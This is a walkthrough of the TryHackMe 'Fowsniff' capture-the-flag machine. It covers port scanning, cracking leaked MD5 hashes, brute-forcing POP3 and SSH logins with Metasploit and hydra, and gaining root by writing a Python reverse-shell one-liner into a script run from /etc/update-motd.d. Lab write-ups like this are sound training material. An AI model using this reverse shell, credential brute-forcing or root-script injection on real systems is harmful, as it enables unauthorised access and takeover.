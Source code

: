 # Fowsniff CTF

Difficulty: Easy

![](https://tryhackme-images.s3.amazonaws.com/room-icons/97b218eed9688e9a5cbe136714b86288.jpeg)


# Introduction

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

This will be structured to go through what you need to do, step by step. Make sure you are [connected to our network](http://tryhackme.com/access)

Credit to [berzerk0](https://twitter.com/berzerk0) for creating this machine. This machine is used here with the explicit permission of the creator <3

# Enumeration
First off we kick off our recon with an nmap scan to discover open ports and services running on the target machine.

Nmap scan result:

![](attachments/20240108155706.png)

Here we can see there are a number of ports discovered and we have some open ports. First up let's checkout the website on port 80.

![](attachments/20240108155841.png)

reading through the webpage we can see the company has suffered a data breach and some credentials have been exposed. We also have some vital info on the webpage.

![](attachments/20240108160134.png)

Let's take a look at their twitter/X page:

![](attachments/20240108160344.png)

We have a username and what seems to be a password hash for the sysadmin which can later be cracked. We also have a pastebin link, let's take a look.

![](attachments/20240108160531.png)

We have a backup for password dump. Navigating to the link:

![](attachments/20240108160713.png)

We have the MD5 password hashes and their respective usernames.

Time to crack these hashes with JohntheRipper:

![](attachments/20240108161007.png)

we now have the passwords for the users.

Going back to tryhackme, Question 6 asks:

Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
![](attachments/20240109152402.png)

After setting the appropriate options: 
USER_FILE - create a separate file for the usernames captured and set it using `set USER_FILE <usernames.txt>`
PASS_FILE - create a separate file for the passwords captured and set it using `set PASS_FILE <passwords.txt>`
RHOSTS - Target IP address `set RHOST <IP>`
Then run it using `exploit`

![](attachments/20240109152329.png)
We successfully get a hit and can login using the credentials

**Question**: Can you connect to the pop3 service with her credentials? What email information can you gather?

Using netcat:

![](attachments/20240109153011.png)

**Question**: Looking through her emails, what was a temporary password set for her?

![](attachments/20240109153416.png)

**Question**: In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

If you're lazy like me LOL you can easily just use hydra to get this if you're stuck.

![](attachments/20240109154352.png)

Using the list of usernames and  the known password we get our answer

# Initial Access

![](attachments/20240109154601.png)

**Question**: Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

![](attachments/20240109154744.png)

Using this command `find / -type f -group users -perm /g=x 2>/dev/null` we can find he file:

![](attachments/20240109154948.png)

# Privilege Escalation

**Question**: Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`
Other reverse shells: [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


![](attachments/20240109163053.png)

**Instructions**:

If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

Here's the banner always displayed on every login:

![](attachments/20240109162512.png)

Taking a look at the **/etc/update-motd.d/00-header**

![](attachments/20240109162612.png)

we can see it executes this script so we should expect to catch a shell when we try to re-login. Let's try that, First up setup a netcat listener using `nc -lvnp <PORT>` 

![](attachments/20240109162751.png)

we have root access!

![](attachments/20240109162937.png)

GGs 🤝. Thanks for Reading and Have a nice day!